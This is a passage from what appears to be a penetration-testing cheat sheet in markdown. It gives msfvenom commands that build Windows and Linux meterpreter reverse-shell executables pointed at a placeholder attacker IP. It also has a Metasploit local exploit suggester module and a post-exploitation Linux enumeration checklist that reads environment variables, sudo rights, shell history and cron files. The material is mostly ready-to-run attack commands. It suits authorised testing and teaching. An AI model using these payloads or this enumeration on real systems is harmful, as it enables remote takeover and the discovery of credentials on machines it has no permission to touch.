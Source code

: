 ```bash
use post/multi/recon/local_exploit_suggester
```

#### Payload Generation
```bash
# List Payloads
msfvenom -l payloads

# Windows Reverse Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=<attacker-ip> \
  LPORT=<port> \
  -f exe \
  -o shell.exe

# Linux Reverse Shell
msfvenom -p linux/x64/meterpreter/reverse_tcp \
  LHOST=<attacker-ip> \
  LPORT=<port> \
  -f elf \
  -o shell.elf
```

## Post-Exploitation

### Linux Systems

#### Initial Enumeration
```bash
# System Information
whoami && id
hostname
uname -a
cat /etc/*release
ip a

# User Context
sudo -l
env
history
cat ~/.bash_history

# Network Information
netstat -tuln
ip route
cat /etc/hosts

# Running Processes
ps auxwf
pstree -p

# Scheduled Tasks
ls -la /etc/cron*
cat /etc/crontab
```
